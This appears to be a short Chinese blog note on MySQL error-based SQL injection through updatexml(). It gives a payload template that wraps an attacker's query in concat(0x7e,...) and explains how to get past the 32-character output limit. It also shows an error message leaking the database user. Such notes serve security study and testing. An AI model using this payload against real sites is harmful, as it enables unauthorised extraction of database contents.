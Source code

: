 ```yaml
---
title: "MySQL updatexml 注入"
date: 2018-02-07T00:00:00+08:00
draft: false
tags: ['mysql','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


MySQL updatexml 注入

<!--more-->

`UPDATEXML (XML_document, XPath_string, new_value); `

XPath_string: Xpath 语法.

`id=1 and updatexml(1,concat(0x7e,(PAYLOAD),0x7e),1)`

PAYLOAD 自行替换 记得加上 limit.

updatexml() 最大返回 32 位 可以用 left() or substr() mid() 来截取后面的内容.

`XPATH syntax error:'~root@localhost~'`